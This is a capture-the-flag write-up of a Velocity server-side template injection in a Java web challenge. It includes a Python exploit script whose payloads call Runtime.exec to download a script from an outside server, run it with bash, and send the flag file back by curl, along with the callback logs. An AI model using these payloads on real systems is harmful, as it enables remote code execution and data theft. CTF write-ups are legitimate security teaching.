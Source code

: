 # [Web - easy] Labyrinth Linguist

This challenge consists in a Java web application. Through it we can input some text from a form to translate it into `voxalith`.

Going deeper into the Java code, the template stands out. Especially the library `org.apache.velocity` is used for templating. This calls for [SSTI](https://antgarsil.github.io/posts/velocity/).

```bash
$ grep velocity -A1 pom.xml
      <groupId>org.apache.velocity</groupId>
      <artifactId>velocity</artifactId>
      <version>1.7</version>
```

```bash
$ cat resources/templates/index.html
[...]
<form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">TEXT</h2>
[...]
```

```java
import org.apache.velocity.VelocityContext;
import org.apache.velocity.runtime.RuntimeServices;
import org.apache.velocity.runtime.RuntimeSingleton;
import org.apache.velocity.runtime.parser.ParseException;
[...]
	String index(@RequestParam(required = false, name = "text") String textString) {
		if (textString == null) {
			textString = "Example text";
		}
[...]
            template = readFileToString("/app/src/main/resources/templates/index.html", textString);
[...]
		org.apache.velocity.Template t = new org.apache.velocity.Template();
[...]
		return template;
	}

	public static String readFileToString(String filePath, String replacement) throws IOException {
[...]
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
        return content.toString();
    }
}
```

After some research on a payload that can execute code, I ended up on this [piece of code](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSTI.java), with a useful comment:

```java
public class SSTI {

    /**
     * SSTI of Java velocity. The latest Velocity version still has this problem.
     * Fix method: Avoid to use Velocity.evaluate method.
     * p
     * http://localhost:8080/ssti/velocity?template=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22open%20-a%20Calculator%22)
     * Open a calculator in MacOS.
```

Trying this payload leads to good results. We can then extract the flag value by using `curl` to send it to a remote HTTP server

```python
import requests
import re
url = "http://83.136.253.168:58982"
payloads = [
    '#set($e="lol");#set($ex=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl -so /tmp/script http://1.2.3.4:4444/script"))',
    # need to wait between, or do it twice to ensure script is already downloaded
    '#set($e="lol");#set($ex=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("bash /tmp/script"))',
    ]
for payload in payloads:
    exploit = {
        "text": payload
    }
    response = requests.post(url, data = exploit)
    matches = re.findall(r'<h2 class="fire">(.*)</h2>', response.text)
    if len(matches) != 0:
        print(matches[0])
    else:
        print(response.text)
```

It downloads another bash script from the HTTP remote server into `/tmp` and executes it with `bash`

```bash
pi@raspberrypi:/tmp/lol $ cat script
flag=$(cat /flag*.txt)
curl http://1.2.3.4:4444/?flag=$flag
```

Executing the python script, we see the remote bash script downloaded and the callback received. It contains the flag

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
83.136.253.168 - - [14/Mar/2024 03:14:21] "GET /script HTTP/1.1" 200 -
83.136.253.168 - - [14/Mar/2024 03:14:27] "GET /script HTTP/1.1" 200 -
83.136.253.168 - - [14/Mar/2024 03:14:27] "GET /?flag=HTBf13ry_t3mpl4t35_fr0m_th3_d3pth5!! HTTP/1.1" 200 -
```